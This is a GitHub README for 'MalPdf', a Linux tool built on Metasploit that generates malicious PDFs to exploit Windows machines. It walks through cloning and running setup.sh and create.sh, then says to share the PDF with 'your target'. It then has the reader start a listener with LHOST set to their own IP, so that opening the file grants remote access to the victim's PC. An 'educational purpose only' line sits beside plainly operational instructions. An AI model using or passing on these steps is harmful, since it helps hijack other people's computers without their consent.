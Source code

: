 # MalPdf

This is an easy to setup malicious pdf generator which uses metasploit framework.

##This works only with Linux##

This can exploit only windows
Requirements:
      1Gb data
      1Gb storage space

#This is not for exploiting other's PCs and this is for educational purpose only
First start your command prompt or power shell

Type the command:

$apt install git

$git clone https://github.com/Nicko15/MalPdf.git

$cd MalPdf


Now run the 'setup.sh' file by typing:

$./setup.sh

All the needed packages and frameworks will be downloaded

Now to create malicious pdf and use, run the 'create.sh'file by typing:

$sudo bash create.sh

 You will get a file path and you can shere the file to your target

To listen to the pdf, type:

$sudo bash listen.sh

$set LHOST <your_ip>

$run

Replace <your_ip> with your ip address
Now your pc will start listening. As soon as your target opens the pdf, you will get access over his pc
